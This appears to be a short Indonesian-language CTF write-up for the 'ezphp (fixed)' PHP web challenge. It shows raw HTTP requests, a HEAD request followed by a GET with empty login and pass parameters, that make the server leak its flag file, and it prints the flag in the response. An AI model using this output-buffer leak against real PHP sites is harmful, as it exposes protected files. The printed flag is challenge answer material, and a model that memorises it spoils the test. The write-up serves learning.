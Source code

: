## ezphp (fixed)
saya mengambil referensi dari https://security.stackexchange.com/questions/126769/exploiting-md5-vulnerability-in-this-php-form

disini kita bisa mengeprint buffer text dari file flagnya dengan memanfaatkan trick HEAD

request pertama memakai HEAD trick

```http
HEAD /?login&pass HTTP/1.1
Host: ezphp-fixed.chal.ctf.gdgalgiers.com
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/102.0.5005.63 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Accept-Encoding: gzip, deflate
Accept-Language: id-ID,id;q=0.9,en-US;q=0.8,en;q=0.7
Cookie: PHPSESSID=b75d1a6267ae646c49393412dfb64d9a
Connection: close
```

maka request setelahnya akan mengandung buffer dari flagnya

request:

```http
GET /?login&pass HTTP/1.1
Host: ezphp-fixed.chal.ctf.gdgalgiers.com
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/102.0.5005.63 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Accept-Encoding: gzip, deflate
Accept-Language: id-ID,id;q=0.9,en-US;q=0.8,en;q=0.7
Cookie: PHPSESSID=b75d1a6267ae646c49393412dfb64d9a
Connection: close
```

response

```http
HTTP/1.1 200 OK
date: Sat, 08 Oct 2022 12:21:06 GMT
server: Apache/2.4.10 (Debian) PHP/5.3.29
x-powered-by: PHP/5.3.29
expires: Thu, 19 Nov 1981 08:52:00 GMT
cache-control: no-store, no-cache, must-revalidate, post-check=0, pre-check=0
pragma: no-cache
content-length: 62
content-type: text/html
connection: close

CyberErudites{svJZiv0xEgiEvitoKQbxM3ujGItEZlRo}Wrong password
```
